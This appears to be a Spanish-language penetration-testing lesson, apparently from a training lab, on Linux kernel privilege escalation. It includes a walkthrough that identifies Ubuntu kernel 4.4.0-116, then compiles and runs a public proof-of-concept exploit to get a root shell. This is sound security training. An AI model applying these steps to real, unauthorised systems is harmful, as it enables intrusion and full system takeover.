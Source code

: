 Los exploits a nivel de kernel existen para una variedad de versiones del kernel de Linux. Un ejemplo muy conocido es [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). Estos aprovechan vulnerabilidades en el kernel para ejecutar código con privilegios de root. Es muy común encontrar sistemas que son vulnerables a exploits de kernel. Puede ser difícil hacer un seguimiento de los sistemas heredados, y pueden estar excluidos de los parches debido a problemas de compatibilidad con ciertos servicios o aplicaciones.

La escalada de privilegios usando un exploit de kernel puede ser tan simple como descargarlo, compilarlo y ejecutarlo. Algunos de estos exploits funcionan directamente, mientras que otros requieren modificación. Una manera rápida de identificar exploits es emitir el comando `uname -a` y buscar en Google la versión del kernel.

Nota: Los exploits de kernel pueden causar inestabilidad en el sistema, así que usa precaución al ejecutarlos contra un sistema de producción.

---

## Kernel Exploit Example

Empecemos revisando el nivel del kernel y la versión del sistema operativo Linux.

```r
uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```r
cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

Podemos ver que estamos en el Kernel 4.4.0-116 de Linux en una caja Ubuntu 16.04.4 LTS. Una búsqueda rápida en Google para `linux 4.4.0-116-generic exploit` muestra [este](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Luego descárgalo al sistema usando `wget` u otro método de transferencia de archivos. Podemos compilar el código del exploit usando [gcc](https://linux.die.net/man/1/gcc) y establecer el bit ejecutable usando `chmod +x`.

```r
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

A continuación, ejecutamos el exploit y esperamos obtener acceso como root.

```r
./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finalmente, podemos confirmar el acceso como root a la caja.


```r
root@htb[/htb]# whoami

root
```

Nota: El sistema objetivo ha sido actualizado, pero sigue siendo vulnerable. Usa un exploit de kernel creado en 2021.